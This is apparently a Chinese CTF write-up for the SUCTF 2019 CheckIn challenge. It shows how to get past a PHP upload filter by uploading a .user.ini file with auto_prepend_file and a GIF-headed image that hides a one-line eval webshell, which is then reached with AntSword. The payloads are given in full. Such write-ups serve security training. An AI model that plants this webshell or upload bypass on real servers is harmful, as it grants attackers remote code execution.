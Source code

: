 ```yaml
---
title: "[SUCTF 2019]CheckIn"
date: 2020-05-28 20:09:22
tags: Web
---
```


先随便上传一个图片

![](image-20200528200255509.png)

这里是index.php 过滤掉了

先上传一个.user.ini

> .user.ini
>
> 这得从php.ini说起了。php.ini是php默认的配置文件，其中包括了很多php的配置，这些配置中，又分为几种：PHP_INI_SYSTEM、PHP_INI_PERDIR、PHP_INI_ALL、PHP_INI_USER。
>
> `.user.ini`。它比`.htaccess`用的更广，不管是nginx/apache/IIS，只要是以fastcgi运行的php都可以用这个方法。我的nginx服务器全部是fpm/fastcgi，我的IIS php5.3以上的全部用的fastcgi/cgi，我win下的apache上也用的fcgi，可谓很广，不像.htaccess有局限性。
>
> 在此可以查看：http://php.net/manual/zh/ini.list.php 这几种模式有什么区别？看看官方的解释：
>
> ![](image-20200528200448627.png)
>
> 指定一个文件，自动包含在要执行的文件前，类似于在文件前调用了require()函数。而auto_append_file类似，只是在文件后面包含。 使用方法很简单，直接写在.user.ini中：
>
> ```
> auto_prepend_file=01.gif
> ```
>
> 01.gif是要包含的文件。
>
> 所以，我们可以借助.user.ini轻松让所有php文件都“自动”包含某个文件，而这个文件可以是一个正常php文件，也可以是一个包含一句话的webshell。

参考链接：https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html

解题

制作一个.user.ini的文件

再使用十六进制 修改文件头以便上传

```
GIF89A?
auto_prepend_file=s.jpg
```

制作图片马   //有些题会过滤掉<?

这里使用

```
GIF89A?
<script language='php'>eval($_POST['a']);</script>
```

蚁剑连接

![](image-20200528200847304.png)
